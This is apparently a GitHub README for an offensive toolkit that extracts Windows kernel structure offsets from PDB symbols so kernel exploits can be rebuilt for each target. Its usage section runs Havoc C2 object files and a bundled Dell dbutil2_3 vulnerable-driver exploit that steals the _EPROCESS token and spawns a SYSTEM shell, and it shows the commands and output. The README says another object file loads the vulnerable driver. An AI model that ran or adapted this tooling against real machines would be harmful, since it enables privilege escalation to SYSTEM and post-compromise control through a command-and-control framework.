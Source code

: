 # Idea
I was getting really annoyed of having to hook a kernel debugger up to a box and find the offsets to structures every time i wanted to test a new kernel exploit idea. So instead I made this. Instead of having to use windbg to find offsets i thought maybe i could parse out the pdb string and extract the offsets myself. This resulted in a collection of bofs and a wrapper around an existing python project. (Cause it wouldnt be a new project without borrowing 50% of the code from another project.)

# How does it work
I built this around Havoc C2 as it supports client side scripting. The project can be broken down into 3 main steps
1. Get the PDB
This will parse out the PE header and extract the debug string (See Here: https://eljayright.dev/research/parsing_pe_headers/ for more info). Once this is done it will download the pdb client side to /tmp/filename.pdb

2. Generate Offsets 
With the pdb, I created a QoL wrapper around https://github.com/moyix/pdbparse which when given a json file will output a c header file, which will have the offsets for the verison of the pdb provided. (Finally a fool proof way to stop bluescreens)

3. Compile and run
You can then recompile the bof with offsets. There is also another bof that can load the Vulnerable driver for you (I couldnt find one online in the 2 google searches I tried). Once the driver is loaded you can run the exploit and not have to worry about wrong offsets :)

# How to use
## Install and compile everything
```
git clone https://github.com/ElJayRight/dynamickerneloffsets.git
cd dynmaickerneloffsets 
git clone https://github.com/moyix/pdbparse.git
cd pdbparse
python3 -m venv venv
source venv/bin/activate
python3 setup.py install
cd ../bofs
make
```

import the havoc script at ./havoc_scripts into havoc.

## Running the tool
1. Get the PDB
```
bof-kernel /home/eljay/dynmaickerneloffsets/bofs/get_pdb.o C:\Windows\System32\ntoskrnl.exe
[+] bof status: True
[+] bof output:
[+] Parsed Arguments: - filename: C:\Windows\System32\ntoskrnl.exe [33 bytes]
[+] Debug Directory: RVA=0x42110 Size=112 -> offset=0x42110 (4 entries)
[+] Download path: https://msdl.microsoft.com/download/symbols/ntkrnlmp.pdb/91f95759b8a1c35a0a9773fca2a8a67e1/ntkrnlmp.pdb
[+] Downloading https://msdl.microsoft.com/download/symbols/ntkrnlmp.pdb/91f95759b8a1c35a0a9773fca2a8a67e1/ntkrnlmp.pdb to server. This will take a few minutes
[+] File saved to /tmp/ntkrnlmp.pdb
```

2. Run the wrapper (in the venv)
Example input.json file:
```
{
  "/tmp/ntkrnlmp.pdb": {
    "_EPROCESS": [
      "Token",
      "UniqueProcessId",
      "ActiveProcessLinks"
    ]
  }
}
```

```
$ python3 wrapper.py input.json 
[i] Loading /tmp/ntkrnlmp.pdb, this can take a few seconds
Done!
#define _EPROCESS_Token 0x248
#define _EPROCESS_UniqueProcessId 0x1d0
#define _EPROCESS_ActiveProcessLinks 0x1d8
output saved to offsets.h
```

Copy or link the offsets.h to the target bof src code (dbutil2_3.c is provided as an example) and recompile.

3. Run the exploit
```
inline-execute /home/eljay/dynmaickerneloffsets/bofs/dbutil2_3.o
[*] [A9602B31] Tasked demon to execute an object file: /home/eljay/dynmaickerneloffsets/bofs/dbutil2_3.o
[+] Send Task to Agent [31 bytes]
[+] Received Output [5 bytes]:
[+] Received Output [43 bytes]:
[+] System eproc value: 0xffffb6048e6a6040
[+] Received Output [20 bytes]:
[+] Replacing token
[+] Received Output [28 bytes]:
[+] Spawning shell as system
[*] BOF execution completed
  
token getuid
[*] [812FC5D7] Tasked demon to get current user id
[+] Send Task to Agent [16 bytes]
[+] Token User: NT AUTHORITY\SYSTEM (Admin)
```

# ToDo
- Add a bof to load and start a driver.
- Write this up as a blog post.
- Find and fix all the bugs this has.
